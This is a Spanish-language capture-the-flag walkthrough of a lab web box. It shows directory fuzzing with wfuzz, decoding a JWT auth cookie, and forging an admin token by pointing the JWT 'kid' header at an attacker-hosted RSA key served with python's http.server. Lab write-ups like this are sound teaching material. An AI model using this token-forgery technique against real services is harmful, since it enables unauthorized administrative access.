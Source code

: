 En la url pone ```http://10.10.10.230/6e1ed97a-2a06-4e7b-84a3-047e03fc347f/notes/5``` si en vez de 5 ponemos otro
numero nos da unauthorized. Intento poner una comilla tras el numero para causar un error sql pero tambien 
sale lo mismo.

Si nos vamos a la seccion de almacenamiento del navegador para ver las cookies nos salen dos
- "uuid" -> 6e1ed97a-2a06-4e7b-84a3-047e03fc347f (lo mismo que la url)
- "auth" -> base 64 largo

SI decodificamos la auth:
```console
└─$ echo "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImtpZCI6Imh0dHA6...8a_FgO79JM" | tr -d "." | base64 -d
{"typ":"JWT","alg":"RS256","kid":"http://localhost:7070/privKey.key"}{"username":"cucuxii","email":"cucuxii@htb.htb","admin_cap":0}base64: entrada inválida
```
Supongo que para entrar en admin hay que cocinar una cookie con "admin_cap":"1" pero para eso necestariamos una
llave.

Antes de ponernos con el jwt miramos si hay algo mas:
```console
└─$ wfuzz -t 200 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.230/6e1ed97a-2a06-4e7b-84a3-047e03fc347f/FUZZ
000001075:   200        61 L     125 W      2000 Ch     "notes"
└─$ wfuzz -t 200 --hc=404,401 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.10.230/6e1ed97a-2a06-4e7b-84a3-047e03fc347f/notes/FUZZ
000000084:   200        55 L     110 W      1705 Ch     "5"
000000430:   500        4 L      40 W       290 Ch      "add"
```

-------------------------------
# Part 3: Json Web Token exploitation

Si decodificamos la cookie con el [jwt.io](https://jwt.io) vemos que pone ```"kid"="http://localhost:7070/privKey.key"```
El sistema esa buscando en esta ruta ```http://localhost:7070/privKey.key``` la llave para validar la cookie.
Generamos nosotros una llave de 2048 bytes  ```openssl genrsa -out llave.key 2048 # Nos genera una llave.key de 2048 bytes```

Lo que queda es copiarla, crear una jwt con ella en jwt.io:
- La llave (llave.key) va en el campo private key  
- Cambiamos lo de *admin_cap* a 1  
- La servimos desde nuestro sistema -> ```sudo python3 -m http.server 80``` por tanto ```"kid": "http://10.10.14.16/llave.key"``` 